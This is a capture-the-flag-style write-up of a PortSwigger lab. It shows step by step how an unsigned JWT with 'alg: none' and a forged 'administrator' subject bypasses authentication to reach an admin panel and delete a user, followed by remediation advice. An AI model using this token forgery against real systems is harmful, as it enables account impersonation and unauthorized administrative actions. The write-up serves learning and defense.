

# Tricking a Server with an Unsigned JWT

## What Lab I Was Working On

**Category:** JWT Attacks
**Difficulty:** Apprentice
**Lab URL:** https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-flawed-signature-verification

---

## What I Needed to Do

I needed to exploit a JWT implementation flaw where the application accepted unsigned JWTs with the algorithm set to `none`. My goal was to modify the JWT to impersonate the administrator account, get into the admin panel, and delete the user `carlos`.

---

## How I Found the Vulnerability

The application was using JWTs for authentication, but it had a critical weakness: it accepted tokens with the algorithm set to:

```json
{
  "alg": "none"
}
```

That meant I could strip the signature, tweak the claims, forge admin privileges, and walk right past the authentication controls.

---

## How I Exploited It

### Step 1: Logging In as Wiener

I started by logging in with:

```text
Username: wiener
Password: peter
```

Then I headed to:

```text
My Account
```

I captured the authenticated request and grabbed the JWT session cookie.

---

### Step 2: Getting Rejected by the Admin Panel

I sent the authenticated request over to Burp Repeater and changed the path to:

```http
GET /admin HTTP/2
```

When I sent it, the server responded with:

```http
401 Unauthorized
```

So wiener was definitely not an admin.

### Screenshot


---

### Step 3: Modifying the JWT Payload

I opened the JWT Editor tab in Burp Suite. The original payload was:

```json
{
  "sub": "wiener"
}
```

I changed it to:

```json
{
  "sub": "administrator"
}
```

Then I applied the changes.

---

### Step 4: Modifying the JWT Header

The original header looked like this:

```json
{
  "alg": "RS256"
}
```

I switched it to:

```json
{
  "alg": "none"
}
```

Then I applied the changes again.

---

### Step 5: Stripping the Signature

The token started with the usual structure:

```text
HEADER.PAYLOAD.SIGNATURE
```

I removed the signature portion but kept the trailing period so it looked like:

```text
HEADER.PAYLOAD.
```

That gave me an unsigned JWT the vulnerable application would accept.

---

### Step 6: Walking Into the Admin Panel

I sent the modified request again. This time, the application handed me admin access because the server was fine with unsigned JWTs.

### Screenshot


---

### Step 7: Deleting Carlos

I found the admin delete endpoint:

```http
/admin/delete?username=carlos
```

I sent the request using my forged administrator JWT, and Carlos was deleted successfully.

### Screenshot


---

### Step 8: Confirming the Win

After deleting Carlos, the lab marked itself as solved.

### Screenshot



---

## What Went Wrong on the Server Side

The server was accepting JWTs with:

```json
{
  "alg": "none"
}
```

and was not demanding a valid cryptographic signature. That let me freely modify claims like:

```json
{
  "sub": "administrator"
}
```

and gain unauthorized access.

---

## The Damage This Could Do

Exploiting this, I could:

- Impersonate any user.
- Escalate privileges to administrator.
- Access restricted functionality.
- Bypass authentication mechanisms.
- Perform unauthorized administrative actions.

---

## How to Fix It

1. Never allow the `none` algorithm in production.
2. Enforce strict JWT signature verification.
3. Use an allowlist of approved algorithms.
4. Reject unsigned JWTs.
5. Perform server-side authorization checks independent of JWT claims.

---

## What I Learned

JWT security depends on proper signature verification. Accepting unsigned tokens (`alg: none`) lets attackers forge arbitrary identities and completely bypass authentication.
